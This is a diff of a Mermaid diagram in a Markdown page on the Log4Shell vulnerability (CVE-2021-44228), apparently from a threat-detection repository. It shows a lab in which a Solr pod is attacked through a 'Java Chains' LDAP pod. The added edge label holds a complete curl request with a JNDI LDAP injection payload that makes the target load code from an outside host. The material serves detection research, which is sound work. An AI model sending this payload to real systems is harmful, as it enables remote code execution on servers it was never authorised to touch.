

The diagram in docs/vulnerabilities/cve-2021-44228.md (danielpacak/awesome-threat-detection), drawn with Mermaid (base theme) before and after one commit. The commit also changed other lines of this file and 4 other files, not shown here.

````diff
--- a/docs/vulnerabilities/cve-2021-44228.md
+++ b/docs/vulnerabilities/cve-2021-44228.md
@@ -3,7 +5,9 @@
 ``` mermaid
 flowchart TD
-  javachains["Java Chains 10.244.0.57:8011 10.244.0.57:50389"]
-  solr["Apache Solr v8.11.0 10.244.0.55:8983"]
+  javachains["Pod: Java Chains 10.244.0.76:8011 10.244.0.76:50389"]
+  solr["Pod: Apache Solr v8.11.0 10.244.0.77:8983"]
+  curl["curl"]
   
   solr -- LDAP --> javachains
+  curl -- "curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.76:50389/b37308}'" --> solr
 ```
````
